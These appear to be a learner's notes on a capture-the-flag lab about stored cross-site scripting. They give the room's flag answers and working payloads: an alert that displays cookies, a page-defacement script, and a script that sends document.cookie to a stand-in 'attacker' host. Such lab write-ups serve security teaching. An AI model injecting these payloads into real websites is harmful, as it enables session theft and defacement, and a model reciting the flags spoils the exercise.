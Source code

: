 
Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the websites database. This often happens when a website allows user input that is not sanitised (remove the "bad parts" of a users input) when inserted into the database.   

**An example**

![](https://i.imgur.com/LCSFUTB.png)  

A **attacker** creates a payload in a field when signing up to a website that is stored in the websites database. If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload to everyone who visits it.

The payload could be as simple as `<script>alert(1)</script>`  

However, this payload wont just execute in your browser but any other browsers that display the malicious data inserted into the database.

Lets experiment exploiting this type of XSS. navigate to the "Stored-XSS" page on the XSS playground.

*Answer the questions below*

1. The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.
	*NO Answer needed*
	
2. Add a comment and see if you can insert some of your own HTML.
	Doing so will reveal the answer to this question.
	
	![[Pasted image 20210610122045.png]]
	
	*ANSWER:* `HTML_T4gs`
	
3. Create an alert popup box appear on the page with your document cookies.

*payload:* `<script>alert(document.cookie)</script>`

![[Pasted image 20210610122145.png]]

*ANSWER:* `W3LL_D0N3_LVL2`

4. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.

*payload:* `<script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>` 
									**OR**
*payload:* `document.querySelector('#thm-title').textContent = 'Hey'`


![[Pasted image 20210610123059.png]]

*ANSWER:* `websites_can_be_easily_defaced_with_xss`

5. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

`<script>window.location='http://attacker/?cookie='+document.cookie</script>`

This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

